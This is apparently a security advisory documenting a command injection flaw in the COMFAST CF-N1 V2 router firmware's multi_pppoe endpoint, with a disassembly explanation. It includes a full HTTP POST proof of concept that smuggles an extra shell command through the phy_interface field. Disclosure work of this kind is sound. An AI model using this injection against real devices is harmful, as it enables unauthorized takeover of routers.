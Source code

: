 # COMFAST CF-N1 V2 V2.6.0 Command Injection in `multi_pppoe`

Setting up the environment using tools like qemu may be difficult; it is recommended to purchase a physical device.

## Overview

A command injection vulnerability exists in the COMFAST CF-N1 V2 (firmware V2.6.0) within the `multi_pppoe` API (`/usr/bin/webmgnt`, function `sub_42FF1C`). Attackers can inject arbitrary commands via the `phy_interface` parameter when using the `one_click_redial` action, enabling unauthorized execution of system commands, access to sensitive information, or full compromise of the device.



![PoC Result: Command Execution Proof](./imgs/0.png)

## Details



*   **Vendor**: COMFAST

*   **Vendor Website**: [http://www.comfast.cn/](http://www.comfast.cn/)

*   **Product**: COMFAST CF-N1 V2

*   **Firmware**: V2.6.0

*   **Firmware Download**: [http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)

*   **Endpoint**: `/cgi-bin/mbox-config?method=SET&section=multi_pppoe`

*   **Vulnerability**: Command Injection

*   **CVE ID**: Pending

*   **Impact**: Execute arbitrary system commands, read sensitive files, or take full control of the device.

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

### Description

The vulnerability originates in the `sub_42FF1C` function handling the `multi_pppoe` configuration. Disassembly analysis shows that the `phy_interface` parameter is unsanitized and directly incorporated into system commands via `sprintf_0` when the `action` is set to `one_click_redial`.

Key code flow:



1.  User input (including `phy_interface`) is parsed via `blobmsg_parse_0` and extracted as a configuration parameter.

2.  When `action` is `one_click_redial`, the `phy_interface` value is inserted into a command string using `sprintf_0` (e.g., constructing `ifdown %s; ifup %s` or similar network interface commands).

3.  The constructed command is executed via `system_0` without input sanitization, allowing injection of arbitrary commands through delimiters like `&&`, `;`, or `|`.

This direct concatenation of unvalidated input into executable commands enables attackers to break out of the intended command context and execute malicious code.



![Disassembly Snippet: Vulnerable Code Path](./imgs/1.png)



![Command Construction Flow](./imgs/2.png)

## Proof of Concept (PoC)

### PoC: Inject Command to Write Test File



```
POST http://192.168.0.1/cgi-bin/mbox-config?method=SET\&section=multi\_pppoe HTTP/1.1

Host: cflogin.cn

Content-Length: 105

Accept: application/json, text/javascript, \*/\*; q=0.01

X-Requested-With: XMLHttpRequest

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.90 Safari/537.36

Content-Type: appliation/json

Origin: http://cflogin.cn

Referer: http://cflogin.cn/index.html

Accept-Encoding: gzip, deflate, br

Accept-Language: zh-CN,zh;q=0.9

Cookie: COMFAST\_SESSIONID=6501a8c0-ffffffc40f08ffffffaaffffff82fffffff0-2c28fa16

Connection: close

{"action":"one\_click\_redial","phy\_interface":"br-wan && echo pppoe > /www-comfast/test.txt","real\_num":1}
```



*   **Notes**: The vulnerable parameter is `phy_interface`, exploited using `&&` to chain an additional command.

*   **Steps**:

1.  Send the POST request using tools like Burp Suite or `curl`.

2.  Access `http://cflogin.cn/test.txt` to verify command execution.

*   **Result**: The file `/www-comfast/test.txt` is created with the content "pppoe", confirming successful injection.



![PoC Execution Result](./imgs/3.png)
